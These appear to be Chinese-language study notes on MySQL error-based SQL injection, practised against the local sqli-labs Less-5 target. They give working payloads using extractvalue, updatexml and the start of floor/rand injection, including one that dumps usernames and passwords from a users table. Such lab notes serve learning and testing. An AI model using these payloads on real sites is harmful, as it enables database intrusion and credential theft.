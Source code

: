 **count()函数**
select count(database())[^计算数据库名有多少字符]

**left()函数,right()函数**

select left('Micheal',3)[^结果是Mic]
select right('Micheal',3)[^结果是eal]

### Error-Based报错型注入

#### extractvalue报错注入

```mysql
http://127.0.0.1/sql/Less-5?id=0' union select 1,extractvalue(1,concat(0x7e,(select database()))),3--+ 
concat函数是让0x7e和后面的指令连接在一起，0x7e是~的ASCII码，会使MySQL报错，从而爆出后面执行语句的结果。extractvalue的两个参数的第一个可以随便写，如上面写的是1
```

报错注入的局限性在于最多显示32个字符，可以配合使用substring()函数

```mysql
http://127.0.0.1/sql/Less-5?id=0' union select 1,extractvalue(1,concat(0x7e,(select substring(group_concat(username,'~',password),25,30) from users))),3--+ 
substring使其从第25个字符开始往后再显示30个字符，再拼接起来就得到了所有用户名和密码
```



#### updataxml报错注入

```mysql
updatexml函数有三个参数
updatexml(XML_document[XML文档对象的名称],XPath_string[路径],new_value[替换查找到的符合条件的数据])
报错原理同extractvalue()，输入错误的第二个参数，即更改路径的符号，第一个参数和第三个参数可以随便填
http://127.0.0.1/sql/Less-5?id=0' union select 1,updatexml(1,concat(0x7e,(select database())),3),3--+ 
```

#### floor报错注入

涉及函数：

rand()函数：随机返回0~1之间的小数

floor()函数：小数向下取整数

ceiling()函数：小数向上取整数

concat_ws()函数：将括号内数据用第一个字段连接起来

```mysql
select concat_ws('~',2,3);
执行结果是2~3
```

count()函数：汇总统计数量

```mysql
select concat_ws('~',(select database()),floor(rand()*2)) from users;
有多少用户就计算多少次，且结果随机
```
